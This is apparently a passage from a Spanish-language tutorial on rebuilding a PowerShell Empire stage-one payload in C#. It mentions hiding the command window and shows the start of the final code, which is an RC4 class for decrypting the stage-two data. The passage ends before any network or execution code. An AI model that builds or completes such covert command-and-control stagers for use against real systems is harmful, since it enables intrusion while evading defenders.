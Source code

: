 Finalmente, agregué algunas funciones adicionales para ocultar la ventana de cmd, encontrarás más información acerca de cómo hacerlo en los comentarios. Ahora pongamos el código C#  junto y ejecutemos nuestra payload de Empire en C#. El código final debería verse así:

```
using System;
using System.Collections.Generic;
using System.Linq;
using System.Management.Automation;
using System.Net;
using System.Runtime.InteropServices;
using System.Text;
using System.Threading.Tasks;
 
namespace PSEmpire_Stage1
{
    class Program
    {
        // RC4 Class to decrypt the stage 2 data
        // Created by Jeong ChangWook. Source https://gist.github.com/hoiogi/89cf2e9aa99ffc3640a4
        public class RC4
        {
            public static byte[] Encrypt(byte[] pwd, byte[] data)
            {
                int a, i, j, k, tmp;
                int[] key, box;
                byte[] cipher;
 
                key = new int[256];
                box = new int[256];
                cipher = new byte[data.Length];
 
                for (i = 0; i < 256; i++)
                {
                    key[i] = pwd[i % pwd.Length];
                    box[i] = i;
                }
                for (j = i = 0; i < 256; i++)
                {
                    j = (j + box[i] + key[i]) % 256;
                    tmp = box[i];
                    box[i] = box[j];
                    box[j] = tmp;
                }
                for (a = j = i = 0; i < data.Length; i++)
                {
                    a++;
                    a %= 256;
                    j += box[a];
                    j %= 256;
                    tmp = box[a];
                    box[a] = box[j];
                    box[j] = tmp;
                    k = box[((box[a] + box[j]) % 256)];
                    cipher[i] = (byte)(data[i] ^ k);
                }
                return cipher;
            }
 
            public static byte[] Decrypt(byte[] pwd, byte[] data)
            {
                return Encrypt(pwd, data);
            }
 
```